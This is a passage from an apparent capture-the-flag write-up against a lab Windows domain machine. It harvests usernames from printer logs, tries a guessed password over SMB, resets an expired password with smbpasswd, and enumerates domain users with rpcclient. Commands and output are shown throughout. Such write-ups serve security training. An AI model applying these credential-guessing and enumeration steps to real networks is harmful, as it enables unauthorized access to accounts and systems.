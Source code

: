 The logs specifically contain the domain usernames that have used the printer. Let's make note of the users we find and save them for later.

```
bnielson
pmerton
tlavel
sthompson
bhult
```

Further enumeration reveals little, but one thing stands out within the logs from 30 May. User sthompson printed a word document named `Fabricorp01.docx`. Interestingly enough, this looks like a passsword. Let's create another file for potential passwords.

Now, we have a very short list of potential credentials, so we can start enumerating the services that require authentication. Since this is a domain network, we can first check SMB and see if we can access any network shares.

```bash
$ smbclient -L 10.10.10.193 -U bnielson%Fabricorp01
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
$ smbclient -L 10.10.10.193 -U tlavel%Fabricorp01
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
$ smbclient -L 10.10.10.193 -U bhult%Fabricorp01
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```

Using any of the usernames, we receive an error indicating that the password has expired and must be changed. Let's arbitrarily select a username to use and reset it to something we can remember with the `smbpasswd` tool.

```bash
$ smbpasswd -r 10.10.10.193 -U bnielson
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user bnielson
```

After we reset it, we have a short window to test various services before it reverts and requires a reset again. After painstakingly poking around, we discover that we can enumerate RPC with `rpcclient` using the password we've set.

```bash
$ rpcclient -U "bnielson" 10.10.10.193
Enter WORKGROUP\bnielson's password:
rpcclient $>
```

Awesome! Let's enumerate the domain users and see what we can find.

```bash
> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
```